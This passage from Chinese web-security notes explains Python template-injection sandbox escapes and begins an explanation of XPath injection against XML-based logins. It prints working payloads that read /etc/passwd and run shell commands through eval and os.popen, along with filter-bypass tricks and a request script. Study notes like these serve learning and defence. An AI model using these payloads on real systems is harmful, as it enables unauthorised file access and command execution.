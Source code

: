 #### 3.  `__globals__`
保存了函数所有的所有全局变量，在利用中，可以使用 `__init__` 获取对象的函数，并通过 `__globals__` 获取 file os 等模块以进行下一步的利用

#### 4. `__subclasses__()`
python的新式类都保留了它所有的子类的引用，`__subclasses__()` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 `__subclasses__()` 方法就可以获取想要的类的对象
### 6. 常见
-  `().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()`
- `().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls /").read()' )`
  
### 7. 绕过技巧
#### 1. 字符串拼接
`request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]`

#### 2. 使用参数绕过
```js
params = {
    'clas': '__class__',
    'mr': '__mro__',
    'subc': '__subclasses__'
}
data = {
    "data": "{{''[request.args.clas][request.args.mr][1][request.args.subc]()}}"
}
r = requests.post(url, params=params, data=data)
print(r.text)
```

## 12. Xpath 注入
### 1. Xpath定义
XPath注入攻击是指利用XPath解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath注入攻击是针对Web服务应用新的攻击方法，它允许攻击者在事先不知道XPath查询相关知识的情况下，通过XPath查询得到一个XML文档的完整内容。

### 2. Xpath注入攻击原理
XPath注入攻击主要是通过构建特殊的输入，这些输入往往是XPath语法中的一些组合，这些输入将作为参数传入Web 应用程序，通过执行XPath查询而执行入侵者想要的操作，下面以登录验证中的模块为例，说明 XPath注入攻击的实现原理。

在Web 应用程序的登录验证程序中，一般有用户名（username）和密码（password） 两个参数，程序会通过用户所提交输入的用户名和密码来执行授权操作。若验证数据存放在XML文件中，其原理是通过查找user表中的用户名 （username）和密码（password）的结果来进行授权访问，

例存在user.xml文件如下：
```xml
<users>
     <user>
         <firstname>Ben</firstname>
         <lastname>Elmore</lastname>
         <loginID>abc</loginID>
         <password>test123</password>
     </user>
     <user>
         <firstname>Shlomy</firstname>
         <lastname>Gantz</lastname>
         <loginID>xyz</loginID>
         <password>123test</password>
     </user>
```
则在XPath中其典型的查询语句为： `//users/user[loginID/text()='xyz'and password/text()='123test']`
